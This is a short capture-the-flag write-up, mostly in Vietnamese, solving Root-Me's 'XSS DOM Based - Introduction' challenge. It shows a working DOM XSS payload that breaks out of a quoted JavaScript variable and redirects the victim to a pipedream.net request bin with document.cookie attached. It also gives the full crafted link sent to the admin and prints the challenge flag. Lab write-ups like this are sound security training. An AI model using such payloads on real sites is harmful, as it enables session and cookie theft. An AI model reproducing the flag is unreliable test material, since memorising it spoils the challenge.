 # [XSS DOM Based - Introduction](https://www.root-me.org/en/Challenges/Web-Client/XSS-DOM-Based-Introduction)

## Solutions

Lỗ hổng xuất hiện ở chỗ giá trị của number parameter trong get request được đưa thẳng vào giữa cặp dấu `''` ở:

```javascript
   var number = '';
```

Tạo bin request: `https://eorumnbff82ll5r.m.pipedream.net`

Inject code: `';document.location="https://eorumnbff82ll5r.m.pipedream.net?".concat(document.cookie);//` được:

```javascript
var number = '';document.location="https://eorumnbff82ll5r.m.pipedream.net?".concat(document.cookie);// ';
```

Gửi link `http://challenge01.root-me.org/web-client/ch32/?number=';document.location="https://eorumnbff82ll5r.m.pipedream.net?".concat(document.cookie)//` cho admin, đợi một lúc sẽ lấy được FLAG

Flag: `flag=rootme{XSS_D0M_BaSed_InTr0}`

## References
